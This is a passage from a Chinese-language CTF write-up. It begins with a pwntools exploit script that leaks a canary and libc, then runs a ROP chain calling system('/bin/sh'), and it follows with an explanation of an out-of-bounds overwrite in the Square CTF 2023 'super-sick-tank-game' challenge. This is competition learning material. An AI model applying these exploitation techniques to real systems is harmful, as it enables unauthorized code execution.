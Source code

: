 ```py
    if b'-0.000000' in float_num or  b'0.000000' in float_num:
        p.close()
        continue
    break
canary=struct.pack("<d", eval(float_num))
canary=u64(canary)
lg("canary")
ru("I believe you can easily solve this problem.")
pop_rdi=0x00000000004016f3
puts_plt=0x4010D0
puts_got=0x404020
read_addr=0x401521
bss=0x404a08
payload=b'a'*0x28+p64(canary)+p64(bss)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(read_addr)
#mydbg()
sl(payload)


libc_base=uu64()-libc.sym['puts']
sys=libc_base+libc.sym['system']
binsh=libc_base+next(libc.search(b"/bin/sh"))
payload=b'a'*0x28+p64(canary)+p64(bss)+p64(pop_rdi)+p64(binsh)+p64(sys)
sl(payload)

p.interactive()
```

## Square ctf2023

### super-sick-tank-game

程序模拟了一个tank 游戏，通过srand 生成一个靶子位置，你可以通过角度和力量操纵子弹的落地位置，这样我们就可以通过靶子的位置，然后选择适当的角度和力量去击中该靶子，并覆写该位置为子弹的值，当连续击中靶子3次之后，我们可以获得特殊弹药`-`，该弹药可在目标的±1 位置均覆写为子弹的值。因此我们可以用来覆写max_power 和max_angel。这样我们就可以前向覆盖一些变量的值（因为cos90-cos180 为负数），如覆盖miss_ctr ，增加我们miss的次数。

![image-20231130171004800](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501050001080.png)

接下来覆写num_ammo_types ，也就是下图中的2，这里是ida反编译错误，实际应该为变量num_ammo_types 。我们覆写num_ammo_types 为一个大值。



![image-20231130171557573](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501050001081.png)

![image-20231130171718648](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501050001082.png)



接下来计算好返回地址与field的偏移即可覆盖返回地址了，但是ammo_types 只有2种取值，是无法覆盖到后门函数的。注意到current_ammo_types 是通过ammo_types[selection-1]取值的，而我们上面已经可以输入一个大于2的selection ，这样就存在一个数组越界。注意到我们可以反复向input_buf 输入，输入"pew!"跳出循环。

通过在"pew!"的第一个strcmp检查中"失败"，而发送"AAAAAA" +  1个任意字节来将任意字节加载到内存中。当你在下一轮循环中发送"pew!"时，前6个"a"会被"pew!\n\x00"覆盖，但最后一个字节将保留在内存中，供下一轮的弹药类型选择使用。
